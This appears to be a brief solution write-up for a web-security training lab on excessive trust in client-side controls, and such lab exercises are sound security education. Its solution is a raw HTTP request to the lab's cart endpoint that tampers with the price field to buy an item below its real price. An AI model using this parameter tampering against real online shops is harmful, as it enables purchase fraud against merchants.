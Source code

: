 # Lab: Excessive trust in client-side controls
## Description
Simply change the price of the product, before adding it to the cart.

## Solution
```yaml
POST /cart HTTP/1.1
Host: acf81f4f1f3a101ac03303740011002c.web-security-academy.net
Content-Length: 47

productId=1&redir=PRODUCT&quantity=1&price=1300
```